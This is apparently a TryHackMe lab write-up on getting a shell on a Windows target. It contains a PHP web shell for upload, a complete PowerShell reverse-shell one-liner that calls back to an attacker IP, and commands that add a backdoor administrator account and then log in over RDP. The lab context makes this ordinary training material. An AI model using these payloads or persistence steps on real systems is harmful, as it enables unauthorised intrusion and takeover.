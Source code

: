 Now lets start the machine form the **TASK 15** and see what is has to offer to use..

**NOTE: As this is a THM task so there wont be any firewall blocking in real life scenarios it wont be this easy for sure!!**
# USING SIMPLE PHP SCRIPT
![Screenshot 2023-11-18 132628](https://github.com/Theincognitomode/What-the-shell/assets/73027020/2358218e-d63f-4e0e-bfbc-e5f964f45978)



The website look something like this..

Now lets create a simple PHP script and upload it on the website

    <?php echo "<pre>" .shell_exec($_GET["cmd"]). "</pre>"; ?>


Now lets visit the /upload/fname (in my case fname = revshell.php)
![Screenshot 2023-11-18 132853](https://github.com/Theincognitomode/What-the-shell/assets/73027020/42b1a494-b726-4b66-a963-b6b657336851)


Open the listern on any port that you desire..


Now lets look at this git repo: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell

From here we will be using the powershell one liner script in order to get a rev shell


    powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.17.61.124',4443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

Chnage the ip address and port accordingly..

Now convert this in url form and then modify the url 

    http://10.10.109.254/uploads/revshell.php?cmd=<whole script that has been converted into url using any url encoder>


![Screenshot 2023-11-18 133437](https://github.com/Theincognitomode/What-the-shell/assets/73027020/73c0ebfd-21ba-4307-b5a8-a200869b1c96)


There we goo!! 

Now read the Questions of TASK 13 

**The webserver is running with SYSTEM privileges. Create a new user and add it to the "administrators" group, then login over RDP or WinRM.**

Lets do this simple commands:


        net user <uname> <password> /add

Now lets add the user in the administrator group:

        net localgrouup administrators <uname> /add

After completing this proccess lets try to access it using the xfreerdp the command for that will look like this:

        xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.10.109.254 /u:abc /p:'abc123'

![image](https://github.com/Theincognitomode/What-the-shell/assets/73027020/2ca970b9-bf12-4576-bb96-0317f8bba194)


Cool we are connected now!!
